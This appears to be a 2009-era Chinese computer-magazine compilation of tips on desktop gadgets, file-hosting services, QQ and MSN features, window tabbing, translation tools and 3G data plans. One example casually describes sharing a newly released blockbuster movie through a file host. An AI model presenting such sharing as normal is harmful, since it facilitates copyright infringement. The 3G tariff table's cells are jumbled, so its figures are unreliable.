Vista刚刚推出之时，它桌面侧边栏中的各种挂件（Gadgets）着实让人惊艳了一下。只是Vista的挂件（包括新版的Windows 7），种类不多，实用的更少。为了不让桌面侧边栏变成花瓶摆设，这里介绍一个将谷歌实用挂件移植到Windows桌面的方法，丰富我们的挂件来源。

这里以Windows XP为例。首先打开http://desktop.google.com/点击其中的“安装Google桌面”下载安装谷歌桌面，安装过程中，注意选中“在您的桌面上显示资讯、电子邮件、天气和其他众多小工具”项。最后点击“完成”，一个透明背景、超强立体感的侧边栏即显示出来。

### 实战：爱情“轰炸”

谷歌桌面已经预置了几个实用挂件，如果你觉得不够用，可在侧边栏上右击，选择“添加小工具”，在打开的窗口中分门别类提供了上百个挂件工具。以“生活方式”为例，点选后，将光标移到右侧“爱情报价”上，再点击“添加→确定”，即可在侧边栏中添加此挂件了，这样，每天开启电脑之后，就能收到一条爱情格言，把它复制下来转发给MM，风雨无阻天天“轰炸”，就不信不能俘获MM的芳心。

> 小提示：
> ★ 默认情况下，谷歌已经预置了时钟、新闻、天气等实用挂件。对不想要的挂件，右击它并选择“删除”即可。下面给大家推荐几个值得一用的挂件：
> - 快速查看：快速访问文件和网页
> - 电子邮件：显示Gmail最近的未读电子邮件
> - 任务列表：管理待处理的任务
> - 媒体播放器遥控：在桌面任意位置控制音乐和视频的播放
> - Tetramino Game：桌面俄罗斯方块游戏
> - 维基百科搜索：从桌面搜索维基百科
> - 每日英文：每日自动更新8类英文句子，日积月累学英文

（文/流言）

## 谁是最好的网络仓库——最新网盘应用实例及评测

同学聚会拍了照片视频、单位的数字培训资料要分发给同事、自制的软件包要共享给网友……在我们的日常工作中，总是免不了要和别人分享文件，此时我们该怎么办呢？刻录成光盘分发或U盘拷贝……其实无须如此复杂，把文件存放到网络硬盘中，随时可供下载，文件共享不再烦恼。

### 实例1：QQ中转站“助”我发文件

小伟是一名信息技术教师，开学后他为学校创建了一个QQ群，所有的同事都加入到该群中。最近单位搞培训，有很多视频教程要分发给教师，这些资料压缩后近300兆，怎么才能快速发送给各位同事呢？小伟想到了使用QQ中转站。

首先点击QQ面板上的邮件图标登录QQ邮箱，然后单击左侧“文件中转站（极速版）”，再点击“上传文件”，在出现的对话框中点击“浏览”按钮选择要共享的文件，即会自动开始上传。上传结束后单击“完成”进入中转站，选中文件，单击“发给QQ群”切换到新页面，在右侧点选要共享的QQ群，输入主题和正文内容，最后单击“发送”。QQ群里面的每个人即刻会收到一份“群邮件”，打开邮件后单击附件中的“查看下载信息”，再点击“开始下载”就可以下载小伟共享的培训资料了。

### 实例2：高清电影“送”给你

最近我四处寻觅，终于找到某部刚刚上映的电影大片的高清视频，网友小红MM向我要这部电影，可是整个文件有3GB多，QQ中转站也无法“中转”了。怎么办？这时其他网友给我推荐了“大米盘”，可无限上传文件，并且支持电驴、迅雷等工具下载。

登录大米盘（www.damipan.com），首先点击上方“注册”申请用户账户并登录，然后单击“尝试插件上传”下载安装Google Gears，这样才能享用高级上传模式。单击“浏览”按钮选择高清电影文件，最后单击“上传”按钮即可。

上传结束后会自动切换到新页面，在这里可以使用多种方式下载。将该页网址发送给小红MM（或其他好友），它们就可以下载了，十分方便。

> 小提示：
> 进入大米盘后可以不注册，直接单击“浏览”上传文件，不过上传速度会比较慢而且文件不能超过2G，所以建议大家还是注册并安装上传插件。

### 网盘小比拼

最近网络上又出现了不少网盘，在这里我特地罗列了5款较有特色的网盘进行评测，希望能为您的选择提供参考。

（文/江苏 石小红）

| 网盘名称 | 网址 | 容量 | 单个文件限制 | 保存时间 | 文件搜索 | 批量上传 | 下载工具 | 上传速度 | 下载速度 | 特色 | 备注 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| Uushare | www.uushare.com | 512M，可增加 | 压缩包<50M，视频<25M | 长期保存 | √ | √ | 常用下载工具 | ★★★☆☆ | ★★★☆☆ | 文件分类比较细 | 适合存储娱乐文件（图片、音乐和视频） |
| QQ中转站 | www.qupan.com | 3G | 普通用户<100M，Vip用户<2G | 长期保存 | √ | √ | 常用下载工具 | ★★★☆☆ | ★★★☆☆ | 文件管理功能全面 | 适合共享文件较多的用户 |
| 大米盘 | www.damipan.com | 不限 | 非注册用户<2G | 长期保存 | √ | × | 常用下载工具 | ★★★★☆ | ★★★★☆ | 存储空间和保存时间无限制 | 特别适合共享超大文件 |
| QQ中转站 | mail.qq.com | 1024MB | 1024MB | 7天，可延长 | × | × | 支持旋风下载 | ★★★☆☆ | ★★★☆☆ | 腾讯服务有保障 | 适合QQ用户分享文件 |
| RayFile | www.rayfile.com/zh-cn | 不限 | 不限 | 长期保存 | × | √ | 支持Raysource | ★★★★☆ | ★★★★☆ | 空间大，注册后可管理文件，上传下载速度快 | 适合共享多个大文件的用户 |

## WOW！整治混乱的网络生活

现在许多人的生活几乎已离不开网络了，在网上我们可以享受各种各样的便利服务。不过服务一多容易引起混乱，反而误了重要事务。下面就让我们找出这些网络服务的乱源，并一一整治。

### 新闻之乱

大多数网民，上网先看一会新闻几乎已成了习惯。只是网上的新闻信息太多，极容易造成混乱。

乱源1：新闻网站太多，像新浪、搜狐、网易、新华网及各种专业新闻网站，数得过来的就有几十家之多，根本看不过来。

乱源2：网站新闻重叠、频繁滚动页面、无法在小窗口即时浏览等。

乱源3：各种各样的新闻太多，反而将自己真正要关注的新闻给淹没了。

### 解决方案1：聚合要闻，一览无遗

上面的乱源1和2，其实可以通过Google的NewsShow向导一并解决。打开Google的NewsShow向导页（http://tinyurl.com/cnn4jj，此为简化网址），样式选择“728×90横幅”或“300×250中等矩形”，搜索主题根据自己的需要勾选（比如我选的是“头条资讯”、“科技”、“娱乐”），其他取默认值即可。设置完毕，复制下方文本框中自动生成的代码。

启动任意浏览器，打开一个空白网页（about:blank），另存此网页到任意位置，假设为C:\MyWeb\News.htm。在记事本中打开News.htm，将刚才复制的代码粘贴到<body>和</body>两个标志之间，保存文件后退出。

右击桌面，选择“属性”；依次点击“桌面→自定义桌面→Web→新建→浏览”，打开刚才保存的News.htm文件，然后连续点击“确定”返回。这时桌面上便会显示新闻窗口了。将光标指向此窗口，拖动显示的标题栏即可随意调整它的位置。

通过这种方式看新闻的优点在于：1.它聚合了新浪、搜狐、腾讯、人民网、IT世界、凤凰网等等几十家流行网站的即时新闻，而且是经过选择的主题，不用我们自己再东翻西找；2.它内嵌于桌面，不影响我们的任何工作，随时可看；3.在小窗口中点击即可直接浏览（按Alt+←键可快速返回主页），不用打开浏览器而影响工作。

> 小提示：
> ★ 将复制的代码添加到自己的网站、博客、论坛等上面，可以在自己的网站中打造即时新闻版块，丰富内容。
> ★ 更多NewsShow的设置，可参阅：http://tinyurl.com/k1cwxn（此为简化网址）。

### 解决方案2：实时跟踪关注的新闻

如果想更精确地追踪自己想要的新闻，并且达到一有更新就获通知的目的，可通过下面的方法实现。

首先打开http://news.google.cn/（.com为英文版），点击左侧“资讯快讯”链接，在新页面中，填写要关注的新闻关键词（如“3G手机”），频率可设置为“出现新的结果时”（这样可即时更新），再填写自己的QQ邮箱地址，最后单击“创建快讯”即可。

这样，Google一旦搜索到与3G手机相关的新闻，就会自动给你所提交的邮箱发送邮件，如果你挂着QQ的话，QQ会即时弹出提示消息，即可达到实时跟踪新闻的目的了。

### 邮箱之乱

在网上混的，一般都会有好几个邮箱，虽然都是免费的，不过管理起来就相当繁琐了。

乱源：邮箱太多，每天打开不同的网页一个一个地登录，非常麻烦，而且有新邮件也不能得到及时通知，往往错过重要邮件。

### 解决方案：四海邮箱成一家

QQ邮箱可以将其他邮箱整合到一起，以便统一管理。点击QQ主面板上的邮件图标自动登录QQ邮箱，点击“设置→其他邮箱→添加其他邮箱账户”，填写要添加的其他邮箱及密码，根据需要勾选相应选项，最后点击“确定收取”。以后随时在QQ邮箱中点击“其他邮箱”即可查看。而且当其他邮箱有邮件时，QQ也会即时弹出提示。

> 小提示：
> ★ CFan上介绍过QQ邮箱的一邮多名，即同一邮箱可以有@qq.com和@foxmail.com两个名字。不过对之前就已经申请过@foxmail.com的人来说，如何将之前申请的@foxmail.com账号与当前QQ邮箱绑定呢？打开Foxmail首页（www.foxmail.com）登录后，会看到“Foxmail迁移助手”提示，点击“开始迁移”，按向导提示操作即可。
> ★ 网易提供的“邮箱搬家”功能也可以整合包括QQ邮箱在内的其他邮箱：登录网易邮箱后，点击“设置→（邮件收发设置）邮箱搬家→添加邮箱搬家账号”，再按向导提示操作就可以了。另外，Google、新浪、搜狐、Yahoo等的免费邮箱服务，也都提供其他邮箱代收服务。

### 论坛博客之乱

泡论坛、写博客，网络生活不可欠缺的两件事，也是极易引起混乱的事。

乱源1：一般都会泡多个论坛，要写N个博客，一个个地登录，也是非常麻烦的事情。

乱源2：追名人博客或小说作品，或者自己发了帖子、写了博客，想第一时间获知别人的回复，但是总不能死守着论坛博客等着更新吧。

### 解决方案1：一键登录论坛博客

通过无忧登陆（下载地址：http://www.onlinedown.net/soft/1232.htm），可以解决乱源1中的烦恼。下载解压后，安装运行，首先会弹出注册提示窗口，点击“开始注册新用户”，简单填写用户名及密码注册后登录。

无忧登陆的主界面与QQ比较相像，点击“显示工具栏”按钮，选择“添加登录账户”打开向导窗口，其中除了原有的根据浏览器输入添加及常用类型账户（包括网易、新浪、搜狐、天涯、猫扑等几十家流行的论坛博客）添加外，还新增了“手工添加登录账户”的方法，更加灵活了。这里试用它新增的方法，点选后在打开的窗口中填写相应论坛或博客的网址（可以在浏览器中打开论坛或博客的网址后，再回到无忧登陆界面，点击“获取当前网址”以自动添加），相应登录用户名及密码，然后点击“登录测试”，如果成功，最后点击“保存”。回到无忧登陆主界面，可以看到刚才设置的账户已添加到“登录账户”列表中。需要的时候，只需要双击列表中的此项目，即可打开对应的论坛或博客了，相当方便。同样方法，可以添加其他所有需要登录的网站。

### 解决方案2：网站更新即时通知

无需死守博客或论坛帖子一遍遍刷新，试试在线工具Aotol（http://www.aotol.com/aotol/）即可解决乱源2中的问题。

打开Aotol网站主页，点击“注册”，只需简单设置用户名、密码和邮箱即可完成。用注册的用户登录后，这里以最新的小说《盘龙》为例来演示，在左侧文本框中输入《盘龙》小说的网址（http://www.qidian.com/book/1017141.aspx），点击OK完成添加。

由于我只想检测《盘龙》这一部小说，其他小说的更新并不想监控。这时可用网址+关键词的方式，Aotol将只查找跟关键词相关部分的更新。以同样方法，还可以添加其他要监控的网址。

当检测到《盘龙》有更新时，网址前的New（新）图标就会闪动，点击New图标即可打开该网页查看，并且更新的部分是高亮显示的，非常醒目。现在，我不用每天都等候在网站前不断地刷新，同样可以在第一时间阅读到《盘龙》的最新内容了。

### 即时通信之乱

QQ、MSN，必不可少的网络即时交流软件，如果使用不当，同样会扰乱我们的网络生活。

乱源：在使用QQ、MSN时，通常我们要同时和多位好友聊天，每个好友单开一个聊天窗口，使得桌面拥挤而混乱。

### 解决方案：聊天也玩多标签

如果将多个QQ聊天窗口，像多标签浏览器一样组织到同一个窗口中，这样就会大大节约屏幕资源，你也可以一对多而不乱了。IMTab（下载地址：http://www.onlinedown.net/soft/74475.htm）正是为解决此乱而来。

下载后解压，直接双击IMTab.exe即可运行，这时你会发现，已经打开的多个QQ聊天窗口（包括群聊窗口），神奇地被“吸”进同一个窗口中了。简单点击下方的标签，就可以随意切换到其他聊天窗口中。双击某标签，则可以快速关闭它。右击标签，还可以为标签设置不同的颜色，非常酷。

> 小提示：
> 多标签，MSN也可以有。安装Messenger Plus! Live（下载地址：http://www.newhua.com/soft/36102.htm）后，启动MSN，会在软件上方看到Messenger Plus按钮，点击选择“偏好设定”，切换到“分页聊天”中，勾选其中的“启用分面聊天窗口”项，确定后MSN也能多标签聊天了。

## 文档部件库，邮件快手的秘密基地

经常写邮件的朋友可能会发现这样一个问题：许多邮件中实际上会包含一些相同的内容，比如邮件开头套话、联系方式等。其实在Outlook 2007（以下简称为Outlook）中，我们可以将这些固定内容存储在文档部件库中，使用的时候简单插入即可，非常便捷省时。

启动Outlook，点击工具栏“新建”按钮，在打开的撰写邮件窗口中，输入需要保存的内容并选中它们。接着在上方切换到“插入”选项卡，点击“文档部件”，点击“将所选内容保存到文档部件库”。在新弹出的窗口中为要保存的内容取一个名称（如“联系方式”、“邮件抬头”等），点击“确定”即可。以后，不管什么时候写邮件，需要插入固定的内容时，可再次点击“文档部件”按钮，将会显示内容列表，点选自己需要的那个，就可以快速将内容添加到邮件中了。同样方法，可以添加其他的内容。

如果想删除已经添加的内容，可点击“文档部件”按钮，右击要删除的内容，选择“整理和删除”，在打开的对话框中再点击“删除”即可。如果是经常要用到的内容，则可以右击它，选择“添加到快速访问工具栏”，以后即可直接从快捷工具栏中插入它了。

> 小提示：
> ★ Foxmail中的签名也可以实现类似Outlook文档部件库的功能。启动Foxmail，点击“工具→签名管理”，在签名管理窗口点击“新建”，然后根据向导提示添加邮件中会用到的固定内容。以后再撰写邮件时，直接点击工具栏“插入签名→（之前保存的签名）”就可以插入指定内容了。

# 有求必应！微软Bing都应了什么

Google、百度无疑是目前使用频率最高的两个搜索引擎，大部分情况下已足够我们使用。不过，如果你有更高的搜索任务，那么可以尝试微软的“必应”搜索服务（英文名为Bing），试试是否真的可以“有求必应”？

# 任务一：搜出名人们的大头照

最近，单位里准备布置一个关于体育名人的专题板报，其中需要一些体育名人的大头照片。虽然无论是Google或是百度，都可以完成搜索名人图片的任务，但却必须由用户自己从浩如烟海的搜索结果中进行筛选，相当麻烦。而使用“必应”就简单多了。

首先打开必应首页 http://www.bing.com.cn，点击“图片”（或直接输入网址 http://cn.bing.com/images），在搜索框中输入要搜索的人物名（本例为“蔡振华”），按回车键搜索，很快得到许多结果。如果感觉结果与自己想要的有差距，可在左侧点击展开大小、布局、颜色、样式、人物等项，进一步缩小筛选范围，比如展开人物项，点击其下的“头像”，很快就可以找到蔡指导的许多标准大头照来。

# 小提示：

对于搜索到的图片，我们可以进一步缩小和定位搜索结果，将光标指向某张图片，从弹出选项中点击“显示类似图片”，即可获得更精准的搜索结果，从而提高搜索效率。

# 任务二：搜索视频专挑宽屏高清

老张家中新添了一台高配置的电脑，高分辨率的宽屏显示器自然是必不可少，但适合的高清视频却并不是太多，而且筛选起来也比较麻烦。使用必应视频搜索（点击必应主页上的“视频”），搜索关键词后（如“瀑布”），依次展开“屏幕大小”，在其下选择“宽屏”，即可筛选出适合于宽屏显示器的视频来。将鼠标移到某一视频的缩略图上，必应还会向用户自动提供30秒的预览体验，而且没有任何限制。

# 小提示：

除此之外，还可以通过视频时长、分辨率及视频来源等进行更精确的筛选。

# 小提示：

对于某些挑剔的用户来说，他们可能只希望获取某一特定网站的视频，例如权威的CCTV，这可以在“视频来源”分类下进行选择，其中预置了十来个流行的视频网站，其中就包括CCTV网站。

# 任务三：自动获取当地天气预报

几乎所有的搜索引擎都可以搜索到天气情况，但能否自动获取到当地的天气信息呢？必应可以做到。使用时只需要将“天气”或“weather”作为关键词搜索，必应就会根据用户IP自动查询出用户当前所在地区的天气信息。

# 小提示：

★ 与中文版本必应相比，英文版的必应还有一些独特功能。在浏览器中打开 http://www.bing.com/worldwide.aspx，进入搜索设置页面后选择 United States - English（美国 - 英语），这样可以获得完全功能的Bing服务。英文版必应状态下搜索，无论搜索什么内容，都可以在搜索结果页面的右侧发现中文版本所没有的预览窗口，单击某条搜索结果右侧的圆点按钮，预览窗口中会即时显示关于该关键词搜索结果的内容，选择 Go to the page（到达该页）可打开该页。

★ 默认设置下，必应会自动保存用户所有的搜索历史，如果使用公用计算机的话，显然不太妥当，可点击左侧 Clear all（清除所有）和 Turn off（关闭）即可。英文版必应，搜索时可能会出现一些少儿不宜的视频和图片，所以请在“General settings→Safe Search”（常规设置→安全搜索）中选择 Strict（严格）或 Moderate（中等），以防止搜索到尴尬的结果。

为了确保显示的默认城市信息百分百正确，还可以访问必应搜索选项页面进行设置，地址是 http://cn.bing.com/settings.aspx?sh=2&FORM=WIWA，在“当前位置”后面的文本框中输入城市名称（地市级以上），建议在这里使用中文，毕竟同音字实在是太多。

# 好友上线请自报家门

平时因为工作忙，虽然开着MSN、QQ却没有时间查看，有时重要的联系人上线了自己还一无所知，比较误事。这里教给大家一个方法，只要好友一上线，不用看就能知道是谁。

启动 Windows Live Messenger (MSN) 2009，右击需要特意提示的好友，选择“为此联系人选择声音”，打开对话框，MSN已经预置了多种声音供挑选，不过这里点击“添加新声音”选择我们自己录制的个性化声音（比如录制的“某某上线啦”的音频）。

在打开的窗口中，找到前面准备好的录音文件（支持WMA、MP3、WAV），可以看到声音文件的波形预览，蓝色方框内的为可用声音，可以移动它的位置。拉动蓝框左右边框可缩短声音长度（最长为5秒）。如果勾选“淡入”或“淡出”，还可以为声音添加渐变效果，调节满意后点击“完成”。

以后，该好友一旦登录，MSN就会喊出谁谁来了。同样方法，还可以为“向您发送即时消息”的人设置个性化声音。

# 小提示：

QQ也可以设置个性化的声音提示，在QQ2009面板上，点击“主菜单→系统设置→基本设置”，切换到“声音”，勾选“开启声音提示”项，接下来就可以在下面为好友消息、好友上线、群消息等设置个性语音了。

# 手机WAP网站建在自己家

将自己的电脑打造成WAP服务器，通过GPRS或者3G就可以轻松访问它。

# 为什么要自建WAP服务器

- 理由1：存储资源丰富。借助WAP服务器，可以预先通过电脑快速下载适合自己（或朋友）指定的手机资源，这样手机通过WAP服务器就可以轻松下载。

- 理由2：节省流量。手机上网大多使用流量计费，商业WAP网站广告多、载入页面缓慢、下载一个资源通常要耗费不少流量，自己制作WAP服务器则可以一切从简。

- 理由3：共享方便。很多手机资源都是以RAR格式存放在手机论坛，手机常常无法直接访问这些互联网论坛（即使能访问，由于页面过大也不好浏览），而且下载后如何解压也是个难题。自己制作WAP服务器则可以在电脑上解压资源，同时分门别类存放好，方便自己和朋友共享。

# 实例：打造手机铃声下载站

很多网站铃声都是收费下载（一般2元/首），而且网站制作的铃声可能自己并不满意（或者不适合自己的手机制式）。下面我们就借助Apache搭建的服务器来做个免费、实用的铃声下载站。

# WAP唱戏，Apache搭台

搭建WAP网站，先要架设服务器，最佳选择自然是免费的Apache服务器软件了（下载地址：http://apache.mirror.phpchina.com/httpd/binaries/win32/apache_2.2.4-win32-x86-no_ssl.msi）。Apache的使用本刊已经有介绍，大家也可以参考博墅文章：http://tinyurl.com/qd7dub。

# 小提示：

本例中，手机浏览器用的是UCWeb（下载地址：wap.ucweb.com，按自己手机类型选择），它不仅可以多标签浏览（类似傲游），而且点击下载链接后会弹出类似IE下载窗口（还可以设置多线程下载），非常方便我们自定义下载文件名和保存地址。推荐大家使用。

# 轻轻松松创建网站首页

WAP网站的首页，一般为WML格式，可借助DotWAP制作（下载地址：http://www.greendown.cn/soft/4258.html）。

第一步：解压后直接运行，选中 MainMenu（主菜单）项，将标题修改为 Phone，右击 Phone 选择“添加子项→链接”添加一个新页面，标题为 Music，地址栏下添加一个链接“/music”，表示这个链接指向根目录的 Music 目录，铃声文件就存在这个目录。

第二步：单击“文件→生成WML文件”，在打开的窗口中按提示生成 index.wml 文件，放置在 C:\Program Files\Apache Software Foundation\Apache2.2\htdocs 目录下即可，此目录是 Apache 默认网站文件目录。

# 快快乐乐共享WAP资源

完成上述操作后，现在就可以准备铃声资源了。比如，自己朋友的手机只支持AMR格式铃声文件，现在就打造专业AMR铃声下载站。

# 小提示：

★ 所谓首页，就是打开网站后看到的第一个页面，类似于平时所说的“根目录”。为了不影响访问速度，首页尽量简单，比如本例中首页只是一些简单的索引链接。考虑到手机编码显示，尽量不要使用中文目录，否则很容易出现乱码。

★ 自建的Wap网站，推荐放一些手机上网时不好找的资源。一般有：
- Music（音乐）：比如格式不常见的手机铃声
- Game（游戏）：只支持特定格式的手机游戏
- eBook（电子书）：如UMD格式的电子书
- Movie（电影）：专用格式的电影
- Software（软件）：专用软件，如多普达领航者_p860升级专用程序

第一步：使用专业软件“ARM安装包”制作好手机铃声文件，然后打开“C:\Program Files\Apache Software Foundation\Apache2.2\htdocs”，新建一个“music”子目录，把制作好的手机铃声文件放在这个子目录下。

# QQ2009，补补更健康

QQ2009刚推出时，大家都很兴奋，结果试用之后都叫苦不迭，有人嫌它慢，更多的人嫌它不稳定，于是纷纷用回QQ2008。其实退守的朋友，你们可以回来了，腾讯已经给QQ2009打上了补丁(SP1)，除了更加稳定，另外还添加了多个实用功能。

# 如何升级到 QQ2009 SP1

方法一：单击“开始→所有程序→腾讯软件→QQ软件管理→QQ软件管理”，在“装机必备”中可看到“QQ2009正式版SP1”，点击它后面的“升级”，然后按提示操作即可。
方法二：如果没有找到QQ软件管理，可直接登录 http://im.qq.com/qq/2009/standard_sp1/ 下载安装。

# QQ2009 SP1 最有价值的功能

稳定是QQ2009 SP1的最主要更新，不过我觉得它下面的几个功能更实用。

# 实战1：多文件一键全收

当对方要发送多个文件给你时，还要一个一个去点击接收吗？想想都麻烦。升级到SP1后，收到多个文件时，下面会有“全部接受”、“全部拒绝”、“全部保存”等多个项，根据需要选择即可。

# 实战2：回执作证

记得某天MM要求我处理个图片，完成后她已经下班了，只好给她发送离线文件。可第二天她劈头盖脸就骂开了，埋怨我没及时把照片发给她。冤枉啊！可谁知道是她健忘还是腾讯出问题了。现在就好了，发送离线文件时，增加了一个回执功能。以前发送完，QQ仅提示是否成功发送，现在SP1可以更高级，如果对方登录后选择了接收，那么QQ会提示你“对方已经成功接收该文件”，她再说没收到，就有证据了！

# 实战3：别拿视频当真人

高手们都知道，和你QQ视频的不一定是真人，有些软件可以模拟摄像头的，可以播放一个视频来骗你。那我们如何可以得知摄像头面对的是不是真人？SP1中增加了这个功能，如果对方是假视频，QQ会提示“对方正在播放视频文件”，这下放心吧！

# QQ2009 SP2 更疯狂

QQ2009 SP1刚正式推出不久，腾讯又放出SP2优先体验的消息。循着 http://exp.qq.com/ 一路找过去，点击“立即参与”后却发现按钮变灰，无法继续下载。几经周折，我终于提取出QQ2009 SP2的真正下载网址，这里与大家分享：http://dl_dir.qq.com/qqfile/qq/QQ2009/QQ2009SP2_trial.exe。下载安装后，发现SP2也有不少独门秘技。

# 秘技1：只锁QQ不锁桌面

别人要暂借你的机器一用，你能好意思不借么？可是又怕别人偷看你的QQ消息？没关系，有了QQ2009 SP2，离开时只要右击系统托盘中的QQ图标，选择“锁定QQ”，或者按 Ctrl+Alt+L 键，就可以快速锁定QQ了。等自己用的时候，点击“解锁”再输入密码，就又恢复正常。

# 秘技2：任意表情随用随搜

为了博得MM的欢心，在QQ聊天时，是不是总觉得QQ表情不够用？现在好了，点击QQ表情窗口，会发现右上角多出“搜索”按钮，点击后即可即时搜索网络上酷炫的表情，点击即可发送。我在安慰MM时，一下子搜索出20多个相关的表情。

# 秘技3：自拍头像耍耍酷

CFan上以前介绍过MSN中可以通过摄像头自拍设置头像，现在QQ2009 SP2也可以了。点击QQ面板上的头像打开我的资料窗口，点击“更换头像”打开新窗口，可以发现其中多出“自拍头像”按钮，接好摄像头后点击此按钮即可显示自拍头像窗口，摆好姿势后点击“拍照”，接下来还会让你简单编辑，最后点击“保存”就可以啦。

# 秘技4：MM，让我们一起游戏

如果两个人安装的都是QQ2009 SP2，那就可以方便地一起玩游戏了。右击某在线好友，选择“一起玩游戏”，或者在聊天窗口工具栏上点击扑克牌图标按钮再选择“一起玩游戏”，其下可以看到四大类几十款游戏。选择适合两个人玩的就可以了。

呵呵，看来QQ2009 SP2还真是不同凡响哦。不过要注意的是，现在它还是体验版，尚有不完善之处。比如我刚安装试用时，总是提示我输入密码错误，这是QQ2009刚推出时的老毛病了。后来我改用QQ2008登录一次再重新用QQ2009 SP2，总算是爬上了QQ。所以，要尝试的朋友还要三思而后行。

# 小编有话说

小编也发现了两个小功能。对于QQ2009，我特别喜欢它新增的清屏功能。有些群里的Q友特别能聊，动不动就成百上千条信息，这时可右击发送窗格，选择“清屏”，聊天窗口里一下子就清净了。另一个是QQ2009 SP2才有的功能，以前当好友设置了自动回复之后，每和他（她）说一句话，都会有自动回复，非常烦人。现在则不但在自动回复的内容前面会上标志以便于我们识别，而且还会显示“不再提醒”选项，点击后再不会没完没了地自动回复了。
（文/流言 小白）

# 排排坐，食果果，窗口再多也不乱

办公软件窗口，网页浏览窗口，聊天窗口，17英寸的显示屏幕恨不得都排满了，难免手忙脚乱。莫急莫急，就让 WindowTabs (下载地址：http://www.windowstabs.com/WindowTabsSetup.exe) 给我们排排座。

下载安装后运行 WindowTabs，会发现所有的软件窗口上都多出一个类似谷歌浏览器的标签，拖动标签时此窗口会变成半透明状态，将它拖放到另一软件标签上，即可将它们组织到同一个窗口中。这样我们在 Office 之类的软件中工作时，如果想放松一下，简单点击一下其他标签即可切换到聊天窗口或游戏窗口了。

注意，未注册的免费版 WindowTabs，每组最多能放三个软件窗口。不过建立多少软件组则没有限制，所以应该不影响我们的使用。

# 实战：QQ 聊天巧隐身

利用 WindowTabs，还可以达到隐蔽聊天的目的。比如我们打开一个 Word 窗口，再开启多个聊天窗口，通过拖放的方式将多个窗口组织到同一窗口中。当发现老板正向我们靠近的时候，及时按下 Ctrl+Alt+→ 组合键快速切换到 Word 窗口，这样看起来你正在努力工作的样子。你也可以自己设置切换快捷键：右击系统托盘中的 WindowTabs 图标，选择“Settings→Shortcuts”（设置→快捷键），进行设置即可。

这一方法的好处，是任务栏上绝不会留下 QQ 聊天窗口的痕迹，但是系统托盘处依然能看到 QQ 图标。解决方法：在 QQ2009 面板上点击“主菜单→系统设置→基本设置→常规”，取消对“在任务栏通知区域显示 QQ 图标”项，点击“确定”即可隐去系统托盘中的 QQ 图标了。

# 小提示：

★ 进入 WindowTabs 设置窗口，切换到 Grouping（组）标签，选中 Enable auto grouping（激活自动建组）项，这样就不用我们自己手动拖放建立软件组了。
★ WindowTabs 为半绿色软件，保留好安装文件夹，重新安装系统后就无需再安装此软件了，直接运行 WindowTabsLoader32.exe 即可。
（文/流言）

# 重建通天塔，走遍天下都不怕

这年头不值一门外语是没法在外面混的，所以我们都会说几句英语。可是现在网络上不仅有中文、英文，还有很多我们根本不认识它们身份的语言，而你由于种种原因希望马上读懂它，怎么办呢？下面就教你识别和翻译的方法。

# 万能语言识别专家 Polyglot

网上的翻译工具有很多，但有时比较尴尬的是，不知道源文字是什么语言，因此也就无法进行翻译了。这时，可借助 Polyglot 3000（下载地址：http://www.onlinedown.net/soft/47341.htm）来帮我们识别。

Polyglot 3000 是一款自动语言识别软件，它支持400多种语言，几乎涵盖了现在网络上所有能见到的语言。下载安装后启动软件，它会自动根据操作系统语言设置程序语言界面。将无法识别的语言复制粘贴到文本框中，再点击“识别语言”按钮，下面即刻给出识别结果，语言类型是用英语标注的，这对我们来说不是问题，接下来找相应的翻译网站翻译就可以了。

# 谷歌出马，一个顶俩

如果你觉得要先识别语种然后再找网站翻译太麻烦的话，还可以试试谷歌的自动翻译。
使用方法很简单：打开谷歌翻译主页 (http://translate.google.cn/)，输入要翻译的内容后，在源语言（左侧）下拉菜单中选择“检测语言”项，目标语言你可以自己选择，一般选中文(简体)或英语。设置完毕，点击“翻译”，谷歌不但给出翻译后的文本，同时还会告诉你语种。与 Polyglot 相比，谷歌翻译的缺点就是它支持的语种比较少，只有40种左右。

# 实例扩展：谷歌文档翻译

使用谷歌翻译，一般都是打开谷歌主页后(http://www.google.com)，点击“语言工具”，然后在“翻译下列文字”中翻译一段话，或者使用下面的“翻译网页”。而谷歌翻译主页中新推的文档翻译功能，则可以翻译整个文档，免去一段一段复制粘贴之苦。

打开谷歌翻译主页 (http://translate.google.cn/)，点击“上传文档”链接，通过“浏览”选择本机上需要翻译的电子书文档，再在下面设置源语言和目标语言，点击“翻译”按钮，谷歌即会自动上传该文档并在网页中完整输出翻译结果。

谷歌没有具体说明文档翻译支持哪些类型的文件及文件大小限制，经我的测试，发现它支持 PDF、TXT、DOC 等常见格式的电子书。但奇怪的是它竟然不支持 CHM 文件。文档大小应在 5MB 以下，它不支持太大的文件。

# 小编有话说

谷歌的翻译质量明显不如金山快译等专业翻译工具，而且无法人工干预，不过它也有许多优势：1.谷歌支持互译的语言达40种左右，而金山快译只支持中、日、英的互译；2.谷歌翻译是免费的，而且不用安装，随时随地可用。
（文/mikewu 王勇）


# 3G来了，你的钱包捂紧了吗？

# 明白消费，上网资费细看

从今年5月17日开始，中国移动、联通、电信三家运营商都正式推出3G商用。同时他们也推出了各种内置上网卡的上网本，随时随地借助3G无线上网已不再是个梦想。3G和原来GPRS、CDMA方式相比，网速得到很大的提高。不过，3G套餐大多有流量的限制，套餐超过部分的计费仍然十分昂贵，因此这就需要我们改变以往粗放式的上网方式，否则很容易招致高额话费。下面就一起来看看CFan如何为你省钱支招。

| 套餐名称 | 套餐月费 | 月包含流量（含T和切换到G网的流量） | 超套餐部分的流量费 | 套餐月费（包含国内流量） | 月使用费（超出后） | 套餐内容 |
| :--- | :--- | :--- | :--- | :--- | :--- | :--- |
| 5元套餐 | 5元 | 30MB | 0.01元/KB | 150元/月 | 0.1元/MB | 省内30小时，或者省内500MB |
| 20元套餐 | 20元 | 150MB | | 200元/月 | 100元 | 省内100小时，省际10小时，或者省内2GB流量 |
| 50元套餐 | 50元 | 500MB | （注：原套餐月费与超出部分使用费用之和达到更高一级套餐月费时，自动向更高一级套餐升级。上网费800元封顶，全国统一，无漫游） | 200元 | 200元 | 省内300小时，省际30小时，或者省内5GB流量 |
| 100元套餐 | 100元 | 2GB | | 300元 | | 省内360小时，或者5GB全国漫游 |
| 200元套餐 | 200元 | 5GB | 注：超出时资费0.05元/分钟，超时费均实行500元封顶。省际不能计算在省内使用 | | | |

# 省钱消费，网络活动巧设置

